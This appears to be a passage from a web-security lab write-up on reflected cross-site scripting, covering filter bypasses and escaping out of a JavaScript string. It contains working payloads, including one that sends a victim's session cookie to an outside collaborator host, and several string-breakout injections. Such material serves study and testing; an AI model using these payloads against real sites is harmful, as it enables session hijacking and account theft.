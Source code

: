 >Exploit Server hosting search term reflected vulnerability that is send to victim to obtain their session cookie.  

```html
<script>
location = "https://TARGET.net/?search=%3C%2FScRiPt+%3E%3Cimg+src%3Da+onerror%3Ddocument.location%3D%22https%3A%2F%2FOASTIFY.COM%2F%3Fbiscuit%3D%22%2Bdocument.cookie%3E"
</script>
```  

>The application gave error message `Tag is not allowed`, and this is bypassed using this `</ScRiPt >`.  

### Reflected String Extra Escape  

>See in `source code` the variable named ```searchTerms```, and when submitting payload ```fuzzer'payload```, see the single quote is backslash escaped, and then send a  ```fuzzer\payload``` payload and ***identify*** that the backslash is not escaped.  

```
\';alert(1);//

\'-alert(1)//  

fuzzer\';console.log(12345);//  

fuzzer\';alert(`Testing The backtick a typographical mark used mainly in computing`);//
```

>For example, with the first Payload, this is the injection result:

![](images/xss_extra_escape.png)

As seen, the resulting JS escapes de `\` character but does not escape the single quote `'`. This way, we can exit the JS string.

>Using a single **backslash**, single quote and **semicolon** we escape out of the JavaScript string variable, then using back ticks to enclose the ```document.location``` path, allow for the cookie stealer to bypass application protection.  
